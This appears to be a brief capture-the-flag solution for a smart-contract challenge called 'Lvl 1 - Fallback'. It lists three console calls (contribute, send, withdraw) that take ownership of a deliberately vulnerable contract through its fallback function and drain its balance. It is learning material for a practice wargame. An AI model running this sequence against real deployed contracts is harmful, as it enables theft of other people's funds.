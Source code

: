Lvl 1 - Fallback

await contract.contribute({value: 1})
await contract.send(1);
await contract.withdraw()
